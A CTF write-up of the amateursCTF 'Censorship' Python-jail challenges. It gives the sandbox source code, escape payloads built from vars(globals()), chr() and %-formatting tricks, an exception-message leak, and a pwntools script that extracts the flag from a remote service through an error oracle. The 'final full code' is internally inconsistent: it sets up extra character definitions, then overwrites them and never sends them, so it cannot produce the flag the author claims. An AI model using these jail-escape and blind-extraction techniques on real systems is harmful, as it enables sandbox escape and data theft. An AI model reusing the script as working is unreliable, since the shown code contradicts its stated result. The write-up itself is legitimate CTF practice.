


# Censorship series

category: misc

authors: `hellopir2` and `flocto`

warning: solutions here are by a long shot not the shortest/easiest to arrive to, just the path i took

## Censorship

We are given a `main.py`:

```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if "flag" in code or "e" in code or "t" in code or "\\" in code:
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

so we are put in a jail where we can't type `flag`, `e`, `t` or `\`, and we have to print the flag, or get it somehow else. I hadn't done a pyjail before, so I didn't really know where to start. However, from observing the code it was clear that we did not need to write `flag` at all since it was stored in the `_` variable as well.

So, since I had no idea what to do, I asked ChatGPT

"python rewrite "print(\_)" but without using the word print"

and it gave me this:

```py
import sys

_ = "Hello, world!"

sys.stdout.write(str(_) + "\n")
```

Ok, I did not know about that alternative to print but that also has an e, so no good.

"python rewrite "print(\_)" but without using the word print OR the letter e"

```py
_ = "Hello, world!"
getattr(getattr(__builtins__, "__" + "__cla" + "ss__"), "__su" + "bclasses__")[0].__bas"e__cla" + "ss__.__su" + "bclasses__"[0].__bas"e__cla" + "ss__.__su" + "bclasses__"[0].__bas"e__cla" + "ss__.__su" + "bclasses__"[0](str(_))
```

Ok, yeah ChatGPT can't really tell well what has an e I guess. But this elucidated to me the existence of `__builtins__`, which I for some reason tried despite it having a `t`.

So what is `__builtins__`?

Typing it into python gives `<module 'builtins' (built-in)>`, so I guess I can use `__builtins__.???` to access some things?



Indeed, there seem to be many of the **builtin** functions like `any`, `format`, and of course, `print`. Who would have thought?

Even still though, `__builtins__` has a t, how can I avoid this? Back to ChatGPT I go..

After many failed prompts, it said something along the lines of

```py
globals().get(chr(115)+...
```

Wait.. globals? that doesn't have a t or e.. what is it?? Running globals(), lo and behold I get:

```
{'__name__': '__main__',
 '__doc__': 'Automatically created module for IPython interactive environment',
 '__package__': None,
 '__loader__': None,
 '__spec__': None,
 '__builtin__': <module 'builtins' (built-in)>,
 '__builtins__': <module 'builtins' (built-in)>,
 ...
 ```

Wait, this is a dict? and I can access `__builtins__` just by indexing it? This is perfect, because the string `"__builtins__"` can be easily built without the letter t, by replacing it with `chr(116)`

Ok, so now I've got
```py
globals()["__buil" + chr(116) + "ins__"]
```
and we have successfully accessed `__builtins__` without the letter t!! But what next?

No idea. So, I went back to the builtins and looked at every builtin that didn't have a t or an e. Until I stumbled upon `vars()`.

"Return the `__dict__` attribute for a module, class, instance, or any other object with a `__dict__` attribute."

Wait, this sounds extremely useful.. I had seen `__builtins__.__dict__` earlier but dismissed it because `__dict__` had a t. So, I run `vars(globals()["__buil" + chr(116) + "ins__"])`:

```
{'__name__': 'builtins',
 '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.",
 '__package__': '',
 '__loader__': _frozen_importlib.BuiltinImporter,
 '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>, origin='built-in'),
 '__build_class__': <function __build_class__>,
 '__import__': <function __import__>,
 'abs': <function abs(x, /)>,
 'all': <function all(iterable, /)>,
 'any': <function any(iterable, /)>,
 'ascii': <function ascii(obj, /)>,
 ...
 ```

gg, I literally win. I can just access the print function via a string using the same trick as earlier, and then print `_`! This gave the final code:

```py
vars(globals()["__buil" + chr(116) + "ins__"])["prin" + chr(116)](_)
```

Which printed ```amateursCTF{i_l0v3_overwr1t1nG_functions..:D}```

## Censorship Lite

Ok, time for round 2. Another `main.py`:

```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "\lite0123456789"]):
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

oh damn, they've now restricted all the numbers as well as `lite`.. `globals()` does not work now. But this is when I noticed something: the code already has print; it prints the Exception whenever its raised!

So, if I can trigger an exception whose error message contains the flag, I win. ok.. then I tried some ways to trigger errors:

First think I thought of was indexing a list:

```py
[][_]
```

which gave the error message

```
list indices must be integers or slices, not str
```

ok.. what about a dict?

```py
{}[_]
```
this gave the error message
```
"amateursCTF{sh0uld'v3_r3strict3D_p4r3nTh3ticaLs_1nst3aD}"
```
What the hell. the first thing I tried on the supposedly harder challenge just straight up worked. In fact, this method can also be used on the previous challenge, just that I only realised the error-printing abuse on this one. Whatever, it is what it is.

## Censorship Lite++

Ok, the final chall. When this challenge dropped I instantly started trying it (11:46pm), and it would only be at around 2:30am that I would solve it.

The `main.py` this time:

```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."]):
                print("invalid input")
                continue
            exec(eval(code))
        except Exception as err:
            print("zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz")
```

Jesus christ, no brackets = no functions. How is this possible?

In Censorship Lite, I had initially thought of leaking data by seeing when errors were thrown, but quickly realized that it actually printed the error message. Here, since the error message isn't printed, we would actually have to leak it by looking at whether an error is thrown.



Ok, so if I repeatedly index a list at index n, and slowly increase the length of the list, an error won't be thrown anymore when its length = n+1, so I can figure out n.

Issue is, I can't even take the ord of a character because brackets don't exist anymore so I can't use functions like that. So, instead, I now need to use bools to check every character of the flag against every possible character, and then use the result of the bool to throw an error.

One way to check the character is to simply try == every possible character and wait for it to return True, but to simplify things, I made it into one expression that would not change between different sends. For example, to check the first character of the flag:

```py
b = 1*(_[0]=="a") + 2*(_[0]=="b") + 3*(_[0]=="c") + ...
```

This way, the value of b would immediately correspond to the character of the flag. Of course, I can't use brackets or `*` so this is how I actually did it:

```py
cs = ["\"" + x+"\"" for x in "abcdfghjkmnopqrsuvwxyzABCDEFGHIJKMLNOPQRSTUVWXYZ_"]
holy = "".join([f"b+=_[a]=={cs[i]};"*i for i in range(len(cs))])
```

Now, I can increase the length of a list `L` until it stops throwing an error with index `b`, to determine `b` and hence determine the character there. Of course, because we can't type "lite" or numbers, we can only check against the rest of the characters. But I decided to try it anyways, since if there were few enough of those characters, they could be guessed.

```py
cs = ["\"" + x+"\"" for x in " abcdfghjkmnopqrsuvwxyzABCDEFGHIJKMLNOPQRSTUVWXYZ_"]
cs2 = " abcdfghjkmnopqrsuvwxyzABCDEFGHIJKMLNOPQRSTUVWXYZ_"
holy = "".join([f"b+=_[a]=={cs[i]};"*i for i in range(len(cs))])
conn = remote("amt.rs", 31672)
conn.recv()
flag = ""
i=0
n=0
for i in range(0, 98):
    #print(i)
    n=0
    conn.send("a=\"k\"==\"k\";b=\"k\"==\"k\";" + (i-1) * "a+=\"k\"==\"k\";"+ holy+"L=[\"k\"]" + ";L[b];\n")
    rec=conn.recv()
    #print(rec)
    while b"z" in rec:
        n+=1
        x = "a=\"k\"==\"k\";b=\"k\"==\"k\";" + (i-1) * "a+=\"k\"==\"k\";"+ holy+"L=[\"k\"]" + n*"+[\"k\"]" + ";L[b];\n"
        conn.send("a=\"k\"==\"k\";b=\"k\"==\"k\";" + (i-1) * "a+=\"k\"==\"k\";"+ holy+"L=[\"k\"]" + n*"+[\"k\"]" + ";L[b];\n")
        rec = conn.recv()
    flag+=cs2[n-1]
    print(flag)
```

This however, only printed `mma  ursCTF   _     _      ` (the first letter is mistakenly `m` because I was too lazy to index 0)

Noticeably, the `te` from the flag format is missing because its in `lite`, and as you can see from the first few characters of the actual flag, it seems that they probably made the entire flag out of characters from `lite` or numbers. So, now I was forced to figure out a way to get these characters.

First I tried to figure out numbers. Just searching "python convert integer to string" on google got me [this](https://stackoverflow.com/questions/961632/convert-integer-to-string-in-python), which after scrolling down, I found this insane notation:

```py
>>> "%s" % 10
'10'
```

Not sure how common knowledge it is that you can use `%` to format strings, but this absolutely blew my mind. Now, I could easily get every digit.

But how to get `lite`? Well, with this newfound method of converting data types to strings, I realised that I could also run it on one of the built-in functions that weren't blocked, without even needing to call the function:

```py
>>> "%s" % max
'<built-in function max>'
```

GG, I can get `lit` from the "built-in function" part, but not `e` yet. So I proceeded to try every other builtin that `__builtins__` gave me to see if any of them might give me an `e`, and ran into this:

```py
>>> "%s" % __IPYTHON__
'True'
```
Ok, I've won. I can get `e` from this `__IPYTHON__` thing.. except I can't because as I quickly realised, that variable only exists in jupyter notebooks. But since it was just a bool of True anyways, I could now access e either way by converting a bool True into a string. So, GG, I can get every letter, now I just have to add it to the implementation.

Compiling all the code together and getting a working implementation was probably the most painful part, especially because of weird stuff happening with backslashes, but I don't think I should explain it here, so here is the final full code that gave the flag (continue loop after connection inevitably closes).

```py
from pwn import *
castints = "ma=\"%s\"%max;z=\"k\"==\"j\";z+=\"k\"==\"j\";m=\"%s\"%z;z+=\"j\"==\"j\";n=\"%s\"%z;z+=\"j\"==\"j\";o=\"%s\"%z;z+=\"j\"==\"j\";vv=\"v\"==\"v\";EE=\"%s\"%vv;EE=EE[z];II=ma[z];p=\"%s\"%z;z+=\"j\"==\"j\";LL=ma[z];q=\"%s\"%z;z+=\"j\"==\"j\";TT=ma[z];r=\"%s\"%z;z+=\"j\"==\"j\";s=\"%s\"%z;z+=\"j\"==\"j\";u=\"%s\"%z;z+=\"j\"==\"j\";v=\"%s\"%z;z+=\"j\"==\"j\";w=\"%s\"%z;z+=\"j\"==\"j\";z+=\"j\"==\"j\";z+=\"j\"==\"j\";z+=\"j\"==\"j\";z+=\"j\"==\"j\";z+=\"j\"==\"j\";z+=\"j\"==\"j\";"
cs2 = "liteabcdfghjkmnopqrsuvwxyzABCDEFGHIJKMLNOPQRSTUVWXYZ_0123456789 "
cs = [" ","LL","II", "TT", "EE"]
cs += ["\"" + x+"\"" for x in "abcdfghjkmnopqrsuvwxyzABCDEFGHIJKMLNOPQRSTUVWXYZ_"]
cs += list("mnopqrsuvw")
holy = "".join([f"b+=_[a]=={cs[i]};"*i for i in range(len(cs))])
cs = ["\"" + x+"\"" for x in " abcdfghjkmnopqrsuvwxyzABCDEFGHIJKMLNOPQRSTUVWXYZ_"]
cs2 = " abcdfghjkmnopqrsuvwxyzABCDEFGHIJKMLNOPQRSTUVWXYZ_"
holy = "".join([f"b+=_[a]=={cs[i]};"*i for i in range(len(cs))])
conn = remote("amt.rs", 31672)
conn.recv()
flag = ""
i=0
n=0
for i in range(0, 98):
    #print(i)
    n=0
    conn.send("a=\"k\"==\"k\";b=\"k\"==\"k\";" + (i-1) * "a+=\"k\"==\"k\";"+ holy+"L=[\"k\"]" + ";L[b];\n")
    rec=conn.recv()
    #print(rec)
    while b"z" in rec:
        n+=1
        x = "a=\"k\"==\"k\";b=\"k\"==\"k\";" + (i-1) * "a+=\"k\"==\"k\";"+ holy+"L=[\"k\"]" + n*"+[\"k\"]" + ";L[b];\n"
        conn.send("a=\"k\"==\"k\";b=\"k\"==\"k\";" + (i-1) * "a+=\"k\"==\"k\";"+ holy+"L=[\"k\"]" + n*"+[\"k\"]" + ";L[b];\n")
        rec = conn.recv()
    flag+=cs2[n-1]
    print(flag)
```

which gives the grammatically correct flag:

`amateursCTF{le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_level}`